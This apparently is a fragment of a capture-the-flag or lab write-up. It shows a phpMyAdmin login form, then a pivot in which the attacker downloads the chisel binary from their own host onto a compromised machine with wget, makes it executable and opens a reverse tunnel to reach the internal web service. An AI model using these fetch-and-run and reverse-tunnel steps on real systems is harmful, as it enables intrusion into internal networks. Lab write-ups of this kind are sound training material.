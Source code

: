 ```bash
                <label for="input_username">Username:</label>
                <input type="text" name="pma_username" id="input_username" value="" size="24" class="textfield"/>
            </div>
            <div class="item">
                <label for="input_password">Password:</label>
                <input type="password" name="pma_password" id="input_password" value="" size="24" class="textfield" />
            </div>    <input type="hidden" name="server" value="1" /></fieldset><fieldset class="tblFooters"><input value="Go" type="submit" id="input_go" /><input type="hidden" name="target" value="index.php" /><input type="hidden" name="lang" value="en" /><input type="hidden" name="token" value=";)pB/Sc^o8D}pw%?" /></fieldset>
    </form></div>
``` 

<br>
<h2>chisel</h2>

```bash
:~# chisel server --reverse --port 1234
2025/09/xx xx:xx:xx server: Reverse tunnelling enabled
2025/09/xx xx:xx:xx server: Fingerprint R9KZw1WfMdiIEF9X6AKUOp7jJtxikqCAKR4yi104tD8=
2025/09/xx xx:xx:xx server: Listening on http://0.0.0.0:1234
2025/09/xx xx:xx:xx server: session#1: tun: proxy#R:5000=>80: Listening
``` 

```bash
ada@...:/tmp$ wget http://xx.xxx.xx.xxx:xxxx/chisel
--2025-09-xx xx:xx:xx--  http://xx.xxx.xx.xxx:xxxx/chisel
Connecting to xx.xxx.xx.xxx:xxxx... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8339456 (8.0M) [application/octet-stream]
Saving to: \u2018chisel\u2019

chisel              100%[===================>]   7.95M  --.-KB/s    in 0.04s   

2025-09-xx xx:xx:xx (182 MB/s) - \u2018chisel\u2019 saved [8339456/8339456]
``` 

```bash
ada@...:/tmp$ chmod +x chisel  
``` 

```bash
2025/09/xx xx:xx:xx client: Connecting to ws://xx.xxx.xx.xxx:123400:127.0.0.1:80 
2025/09/xx xx:xx:xx client: Connected (Latency 677.193µs)
``` 

<img width="1325" height="448" alt="image" src="https://github.com/user-attachments/assets/859f1b52-d9a1-4ccc-a93c-a304c05d3f49" />

<img width="1119" height="815" alt="image" src="https://github.com/user-attachments/assets/daebc076-bba7-4bb8-b6ce-6aedee8ad427" />


<br>
<br>
